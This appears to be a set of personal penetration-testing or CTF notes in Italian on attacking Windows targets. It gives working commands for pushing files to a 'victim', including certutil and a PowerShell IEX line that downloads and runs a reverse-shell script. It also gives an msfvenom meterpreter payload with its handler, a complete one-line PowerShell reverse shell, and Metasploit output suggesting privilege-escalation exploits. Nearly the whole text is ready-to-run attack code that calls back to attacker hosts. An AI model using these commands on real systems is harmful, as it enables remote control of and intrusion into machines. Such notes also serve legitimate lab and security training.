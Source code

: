 # Windows

## file transfer

### HTTP
host: 
```
python -m http.server 9000
```

vittima:
```
wget http://10.10.14.14:9000/file -o .
```
o con
```
certutil -urlcache -f http://10.10.14.23/nc.exe nc.exe
```

o con:
```
IEX(New-Object Net.WebCLient).DownloadString('http://10.10.14.19:9000/rev.ps1')
```

### FTP
host:
```
python -m pyftpdlib -p 21
```

vittima:
```
ftp 10.10.14.14
```

### SMB
host:
```
impacket-smbserver ciao .
```

vittima:
```
copy \\10.10.14.14\ciao\file.exe .
```

https://blog.ropnop.com/transferring-files-from-kali-to-windows/


## reverse shell 

### meterpreter
host: creare reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe -o /home/kali/Desktop/rs_exploitl.exe
```

vittima: eseguire la shell 
host:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.14
set LPORT 4444
exploit
```

 https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047

### nishang 

```
powershell -command "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.23',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
https://github.com/samratashok/nishang

## Privilege escalation

### meterpreter
Ottenere una sessione meterpreter con il metodo sopra.

```
meterpreter > background 
[*] Backgrounding session 4...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) >
```


```
msf6 post(multi/recon/local_exploit_suggester) > set session 4
session => 4
```

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.106 - Collecting local exploits for x64/windows...
[*] 10.10.11.106 - 28 exploit checks are being tried...
[+] 10.10.11.106 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/ricoh_driver_privesc: The target appears to be vulnerable. Ricoh driver directory has full permissions
[+] 10.10.11.106 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Post module execution completed
```
